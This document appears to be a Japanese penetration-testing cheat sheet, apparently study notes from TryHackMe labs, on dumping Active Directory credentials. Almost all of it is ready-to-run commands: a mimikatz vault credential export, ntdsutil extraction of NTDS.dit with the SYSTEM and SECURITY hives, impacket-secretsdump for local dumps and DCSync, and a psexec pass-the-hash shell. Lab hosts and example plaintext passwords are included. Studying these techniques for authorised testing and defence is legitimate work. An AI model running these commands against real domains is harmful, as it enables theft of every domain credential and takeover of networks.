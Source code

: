 ```sh
mimikatz # vault::cred /export
```

## ドメインコントローラー

New Technologies Directory Services (NTDS) は、オブジェクト、属性、資格情報など、すべての Active Directory データを格納するデータベース。NTDS.DTS データは次の 3 つのテーブルで構成される。

- スキーマ テーブル: オブジェクトの種類とそれらの関係が含まれる。
- リンク テーブル: オブジェクトの属性とその値が含まれる。
- データ タイプ: ユーザーとグループが含まれる。

デフォルトでは C:\Windows\NTDS に配置される。  
NTDS.dit ファイルには、通常の方法ではアクセスできない。

### ローカルダンプ（資格情報なし）

資格情報がないがドメイン コントローラーへの管理者アクセス権がある場合

NTDS ファイルの内容を正常にダンプするには、次のファイルが必要。

- C:\Windows\NTDS\ntds.dit
- C:\Windows\System32\config\system
- C:\Windows\System32\config\security

```shell
# NTDSファイルを抽出
powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
```

```shell
# ハッシュを抽出
impacket-secretsdump -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
```

### リモートダンプ（資格情報あり）

次の権限を持つアカウントか、AD 管理者アカウントが必要

- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set

```shell
# DC sync
impacket-secretsdump -just-dc <domain>/<AD_Admin_User>@10.10.26.212

# NTLMハッシュのみ
impacket-secretsdump -just-dc-ntlm <domain>/<AD_Admin_User>@10.10.26.212
```

```sh
# ローカル管理者るによるハッシュダンプ
secretsdump.py WRK/Administrator:N3w34829DJdd?1@10.220.10.20 -output local_dump

# パスワードをオフラインクラックした後、ドメイン管理者のNTLMハッシュを入手
secretsdump.py TRYHACKME/drgonzo:lasvegas1@10.220.10.10 -just-dc -output dc_dump

# pass-the-hash でシェル起動
psexec.py 'TRYHACKME/Administrator@10.220.10.10' -hashes :****************
```
